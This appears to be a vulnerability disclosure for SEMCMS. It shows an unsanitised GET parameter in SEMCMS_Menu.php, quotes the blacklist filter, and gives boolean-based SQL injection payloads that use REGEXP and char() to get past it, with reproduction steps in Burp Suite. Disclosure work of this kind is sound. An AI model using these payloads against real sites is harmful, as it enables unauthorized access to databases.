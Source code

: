 Causes of vulnerabilities:

/xcR45q_Admin/SEMCMS_Menu.php Line 66




Vulnerability code:


```
<?php
 } elseif ($type == "edit") {
 
   $row = mysqli_fetch_array($db_conn->query("SELECT * FROM sc_menu WHERE ID=" . $_GET["ID"]));
 
   ?>
```


It can be seen that the ID here will execute an SQL statement when passing parameters through GET


Filter code at/Include/contorl. PHP


Line 151


```
function test_input($data) { 
    //$data = str_replace("%", "percent", $data);
    $data = trim($data);
    $data = stripslashes($data);
    $data = htmlspecialchars($data,*ENT_QUOTES*);
    return $data;
  }
```

And the 8th line


```
function inject_check_sql($sql_str) {
 
   return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
 } 
 function verify_str($str) { 
    if(inject_check_sql($str)) {
      exit('Sorry,You do this is wrong! (.-.)');
     } 
   return $str;
 } 
```

 

By filtering the above content, we can construct a payload


```
-1%20or%20length(database())%20REGEXP%20char(94,53,36)
```

 


Recurrence of vulnerabilities

 
visit a website


```
http://url/xcR45q_Admin/SEMCMS_Menu.php
```

 

Brupsuite packet capture, Due to the length of the database name being 5 when creating a new site, the payload is constructed as


```
-1%20or%20length(database())%20REGEXP%20char(94,53,36)
```

（Determine if the length of the database name is 5）

 
Insert payload to view echo
 

![clip_image002](https://github.com/tzyyyyyyy/zemcms/assets/118863363/0b477628-181f-4feb-b1d3-3accffff8695)


Change the payload at this time

```
-1%20or%20length(database())%20REGEXP%20char(94,54,36)
```

（Determine if the length of the database name is 6） 

Change the payload at this time 

![clip_image004](https://github.com/tzyyyyyyy/zemcms/assets/118863363/c429a3bf-3004-43e7-a772-7f61ade3a220)

 
SQL injection can continue based on changes in the page in the future
